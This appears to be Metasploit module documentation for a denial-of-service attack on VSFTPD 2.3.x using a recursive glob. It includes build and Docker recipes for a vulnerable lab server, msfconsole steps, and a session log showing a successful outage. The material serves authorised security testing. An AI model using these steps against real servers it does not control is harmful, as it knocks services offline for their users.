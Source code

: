 ## Vulnerable Application

This is an auxiliary for DOSing a VSFTPD server from version 2.3.3 and below. The
vulnerability has been directly tested on versions 2.3.0, 2.3.1, and 2.3.2 and have
shown success.

VSFTPD is a popular ftp server written in C. The vulnerability causes a DOS on
the service by leveraging a long recursive glob statement on the server. When
we fill the 4096 character buffer with this recursive glob search, it makes the
current thread spend all of that time unwinding that glob statement which can
use up all the resources on that core. Sending this glob on all threads leave no
availability for anyone else to access the server while taking up all of the CPU
resources of the machine.

## Options

### FTPUSER
The username used to log into the FTP server

### FTPPASS
The password used to log into the FTP server

### Install on Arch Linux

The software has been tested on multiple versions using arch linux. To create an
installable package for the vulnerable software to test, follow these instructions.

1. Clone the source repository using `git clone https://gitlab.archlinux.org/archlinux/packaging/packages/vsftpd.git`
2. Replace the contents of the PKGBUILD with this

```pkgbuild
pkgname=vsftpd
pkgver=2.3.2
pkgrel=1
pkgdesc='Very Secure FTP daemon'
url='https://security.appspot.com/vsftpd.html'
arch=('x86_64')
license=('GPL2')
depends=('glibc' 'openssl' 'libcap' 'pam' 'libnsl')
optdepends=('logrotate')
backup=('etc/vsftpd.conf'
        'etc/xinetd.d/vsftpd'
        "etc/logrotate.d/vsftpd")
source=(https://security.appspot.com/downloads/${pkgname}-${pkgver}.tar.gz
        vsftpd-ssl.socket
        vsftpd.socket
        vsftpd.service
        vsftpd@.service
        vsftpd-ssl.service
        vsftpd-ssl@.service)
sha256sums=('SKIP'
            'd5185e48fffc6253499a55e0fe0f90a3424fc639640af11a9d38df33fb145afe'
            '9fdbfd2ec0207170371ca3cf2b0ddca2dc2fe3d062e5792e0d3e51474c3198c9'
            '0597e571718ba0f4dc4b32a4ddd148103758c48c7d65dcb8bbedafc9e810e83d'
            'd7b8e4827d4f6bafcbf52f9d2d7380958c7b08bb3f757806aa89d4bc06c9671c'
            'b88a50fc68b3bf746d13c9a777df77791cd3eac6eb7c2df655418071c2adf422'
            '4a55c2468b08d858f71bacf1f4885847bec8e548b0e92088068d9bdd3884af84')

prepare() {
  cd ${pkgname}-${pkgver}
  # build-time config
  sed -e 's|^#undef VSF_BUILD_SSL$|#define VSF_BUILD_SSL|' -i builddefs.h
  sed -e 's|/usr/share/empty|/var/empty|g' -i tunables.c vsftpd.conf.5 INSTALL
  sed -e 's|/usr/local/sbin/vsftpd|/usr/bin/vsftpd|' -i EXAMPLE/INTERNET_SITE/${pkgname}.xinetd

  # fix linking to openssl 1.1
  sed -e 's|SSL_library_init|SSL_CTX_new|' -i vsf_findlibs.sh
}

build() {
  cd ${pkgname}-${pkgver}
  make LINK='' CFLAGS="${CFLAGS} ${CPPFLAGS}" LDFLAGS="${LDFLAGS}"
}

package() {
  cd ${pkgname}-${pkgver}

  install -Dm 755 ${pkgname} -t "${pkgdir}/usr/bin"
  install -dm 755 "${pkgdir}/var/empty"
  install -Dm 644 "${srcdir}"/{*.service,*.socket} -t "${pkgdir}/usr/lib/systemd/system"

  install -Dm 644 ${pkgname}.conf -t "${pkgdir}/etc"
  install -Dm 644 EXAMPLE/INTERNET_SITE/${pkgname}.xinetd "${pkgdir}/etc/xinetd.d/${pkgname}"
  install -Dm 644 RedHat/vsftpd.log "${pkgdir}/etc/logrotate.d/${pkgname}"
  install -Dm 644 RedHat/vsftpd.pam "${pkgdir}/etc/pam.d/${pkgname}"

  install -Dm 644 ${pkgname}.8 -t "${pkgdir}/usr/share/man/man8"
  install -Dm 644 ${pkgname}.conf.5 -t "${pkgdir}/usr/share/man/man5"
  install -Dm 644 BENCHMARKS BUGS Changelog FAQ INSTALL README README.ssl REFS \
    REWARD SPEED TODO TUNING -t "${pkgdir}/usr/share/doc/${pkgname}"
}
```

3. If you want to test a different version, Change the version variable to your
desired version.
4. Run `makepkg -i` to build the package and automatically install it.
5. Start the systemd service with `sudo systemctl start vsftpd`

### Docker install on Arch Linux

A simple container was created to easily test this vulnerability. To easily run a
vulnerable instance of this application, build this image from this Dockerfile.

1. Create a `Dockerfile` and place the content below into it

```dockerfile
FROM archlinux:latest
ARG VERSION=2.3.2
RUN pacman -Sy --noconfirm gcc make libnsl
RUN curl -O https://security.appspot.com/downloads/vsftpd-$VERSION.tar.gz
RUN tar zxf vsftpd-$VERSION.tar.gz
WORKDIR /vsftpd-$VERSION
RUN make
RUN mkdir -p /usr/share/empty/
RUN chmod +x /vsftpd-$VERSION/vsftpd
RUN mv /vsftpd-$VERSION/vsftpd /bin/vsftpd
RUN mv /vsftpd-$VERSION/vsftpd.conf /etc/vsftpd.conf
RUN chown root:root /etc/vsftpd.conf
EXPOSE 21
CMD [ "/bin/vsftpd" ]
```

2. Run `sudo docker build . -t vsftpd:2.3.2 --build-arg=2.3.2`
3. Run `sudo docker run --name vsftpd -p 21:21 vsftpd:2.3.2`

Run the module against this container and the container will either slow down or crash entirely.

## Verification Steps

1. Start `msfconsole`
2. `use auxiliary/dos/ftp/vstfpd_232`
3. `set rhosts`
4. `set ftpuser`
5. `set ftppass`
6. `run`

## Scenarios

### VSFTPD 2.3.2 - Arch linux

```
msf6 > use auxiliary/dos/ftp/vsftpd_232
msf6 auxiliary(dos/ftp/vstfpd_232) > set rhosts 192.168.56.106
rhosts => 192.168.56.106
msf6 auxiliary(dos/ftp/vstfpd_232) > set ftpuser anonymous
ftpuser => anonymous
msf6 auxiliary(dos/ftp/vstfpd_232) > set ftppass ''
ftppass => 
msf6 auxiliary(dos/ftp/vstfpd_232) > run
[*] Running module against 192.168.56.106

[*] 192.168.56.106:21 - sending payload
.............................................................................................
[+] 192.168.56.106:21 - Stream was cut off abruptly. Appears DOS attack succeeded.
[*] Auxiliary module execution completed
```

You can verify that it works by either attempting to ftp into the machine after or checking
htop on the machine. If the CPU is at max capacity, that would be due to the DOS.
